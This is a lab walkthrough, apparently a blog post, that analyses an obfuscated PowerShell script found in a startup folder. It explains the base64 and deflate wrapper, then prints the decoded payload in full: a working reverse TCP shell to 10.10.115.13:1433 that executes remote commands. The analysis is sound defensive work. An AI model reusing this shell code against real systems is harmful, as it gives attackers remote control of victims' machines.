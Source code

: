 ```yaml
---
title: "PowerShell "
classes: wide
header:
 teaser: /assets/images/Tutorials/PS-Walk_Through/path.jpg
ribbon: Green
description: "Obfuscated PowerShell walk-through..."
categories:
 - Tutorials
toc: true
---
```


## Scenario
Analyst!

We found this in a startup folder on a user's host. Sheesh.

This thing makes my brain hurt just by looking at it. Can you figure this out for us, please?

Thanks,

IR Team

---
## file investigation

At first look, I found the lab provides a zip file and a Readme file where the scenario is written. On extracting the file and opening it in VSCode, I found that it seemed like **PowerShell code** so changed the extension to ps1.

![FL](/assets/images/Tutorials/PS-Walk_Through/FL.png)

As you can see the iEx command means to invoke what is coming next and the pipe which makes sense that the code has two parts.

## Deobfuscation
let's break the code. `iEx(nEW-ObJECt  Io.CoMpRESSiOn.defLaTEstReam([iO.memoRYStREam][sYsteM.coNvert]::FROmbaSe64StRiNG` this part has the invoce instruction but what shall be invoced?!!
If you look from a good perspective you will find that this line performs the **Deobfuscation**. First `[system.convert]::FROmbaSe64StRiNG` retrieves the string from B64 then `[io.memoryStream]` creates a new MemoryStream object in which the decoded byte array will be stored. At last `new-Object io.compression.deflateStream` creates a new DeflateStream object used to decompress data that has been compressed using the Deflate algorithm. so it would be really easy to decode the strange part leave it now.
I would prefer to have a look at what resides after the pipe `% {nEW-ObJECt SYsteM.Io.strEAmReAder($_,[SysTEm.TExT.eNCoDIng]::aSCIi) }| % { $_.reaDtoEnD()}` that simply will read data from a stream and outputs the entire content as a string.
So now we need to know what is the stream, For that mission, I would try PowerShell itself but I must at first remove the invoke `iEx` and then store the rest script in the new var.

![FR](/assets/images/Tutorials/PS-Walk_Through/fr.png)

As long as there is no error, we are good ;). So let's see what has been stored in that var.

![content](/assets/images/Tutorials/PS-Walk_Through/content.png)

that's a piece of good news we found our destination.

```powershell

########################################################################";
#                                                                      #";
#                        PowerShell Reverse TCP v3.5                   #";
#                                          by Ivan Sincek              #";
#                                                                      #";
# GitHub repository at github.com/ivan-sincek/powershell-reverse-tcp.  #";
# Feel free to donate bitcoin at 1BrZM6T7G9RN8vbabnfXu4M6Lpgztq6Y14.   #";
#                                                                      #";
#########################################################################";


$client = $null;
$stream = $null;
$buffer = $null;
$writer = $null;
$data = $null;
$result = $null;
try {
 $ip = "10.10.115.13"
 $port = 1433
 $client = New-Object Net.Sockets.TcpClient($ip, $port);
 $stream = $client.GetStream();
 $buffer = New-Object Byte[] 1024;
 $encoding = New-Object Text.AsciiEncoding;
 $writer = New-Object IO.StreamWriter($stream);
 $writer.AutoFlush = $true;
 $bytes = 0;
 do {
 $writer.Write("PS>");
 do {
 $bytes = $stream.Read($buffer, 0, $buffer.Length);
 if ($bytes -gt 0) {
 $data = $data + $encoding.GetString($buffer, 0, $bytes);
 }
 } while ($stream.DataAvailable);
 if ($bytes -gt 0) {
 $data = $data.Trim();
 if ($data.Length -gt 0) {
 try {
 $result = Invoke-Expression -Command $data 2>&1 | Out-String;
 } catch {
 $result = $_.Exception | Out-String;
 }
 Clear-Variable -Name "data";
 $length = $result.Length;
 if ($length -gt 0) {
 $count = 0;
 do {
 if ($length -ge $buffer.Length) { $bytes = $buffer.Length; } else { $bytes = $length; }
 $writer.Write($result.substring($count, $bytes));
 $count += $bytes;
 $length -= $bytes;
 } while ($length -gt 0);
 Clear-Variable -Name "result";
 }
 }
 }
 } while ($bytes -gt 0);
} catch {
 $_.Exception.InnerException.Message;
} finally {
 if ($writer -ne $null) {
 $writer.Close();
 $writer.Dispose();
 Clear-Variable -Name "writer";
 }
 if ($stream -ne $null) {
 $stream.Close();
 $stream.Dispose();
 Clear-Variable -Name "stream";
 }
 if ($client -ne $null) {
 $client.Close();
 $client.Dispose();
 Clear-Variable -Name "client";
 }
 if ($buffer -ne $null) {
 $buffer.Clear();
 Clear-Variable -Name "buffer";
 }
 if ($result -ne $null) {
 Clear-Variable -Name "result";
 }
 if ($data -ne $null) {
 Clear-Variable -Name "data";
 }
 [System.GC]::Collect();
}
```
## Code illustration

To understand this let's break it into small parts, the code has four parts:

1- Script Information Block: The initial block is a comment section providing metadata about the script such as version, author, GitHub repository, and donation address.
2- Variable Initialization: $client, $stream, $buffer, $writer, $data, and $result are initialized to $null
3- Try Catch Block:
that's the most interesting block where the script tries to establish a TCP connection with C2.
first set port and ip `10.10.115.13 : 1433` then establish TCP connection:
- $client is created as a new TCP client connecting to the specified IP and port.
- $stream is obtained from the TCP client to facilitate data transmission.
- $buffer is a byte array of size 1024 to store incoming data.
- $encoding is set to ASCII encoding.
- $writer is an IO.StreamWriter for writing data to the stream with AutoFlush set to $true.
after that the script enters a do loop which continually prompts the remote user with "PS>" and waits for commands, reads incoming data from the stream into the buffer until no more data is available and converts the byte data to a string using ASCII encoding and appends it to **$data**.
after that enters the inner loop, if $data is not empty, it attempts to execute the PowerShell command using Invoke-Expression, captures the output or exception into $result and finally clears $data.

Of course, if there is an exception that is where the catch comes to act.

Finally Block: finally, loses and disposes of the writer, stream, client, and clears all variables and Forces garbage collection with  `[System.GC]::Collect()`.

## Conclusion

In this investigation, we analyzed an obfuscated PowerShell script found in a user's startup folder. The script, once deobfuscated, revealed itself as a PowerShell reverse TCP script by Ivan Sincek, designed to allow remote command execution on the compromised host.

### Key Findings
Obfuscation:
The script uses base64 decoding and Deflate compression to hide its true function.
Deobfuscation revealed the script's purpose and content.

Functionality:
Establishes a TCP connection to a remote IP (10.10.115.13) on port 1433.
Reads commands from the attacker, executes them and sends back the results.

**Code Structure:**

Initialization: 
Sets up variables and TCP connection.
Command Execution Loop: Continuously reads and executes remote commands.
Cleanup: Handles exceptions and disposes of resources.

##
- VSCode
- Cmder

#### Written by

## *Karim Gomaa*

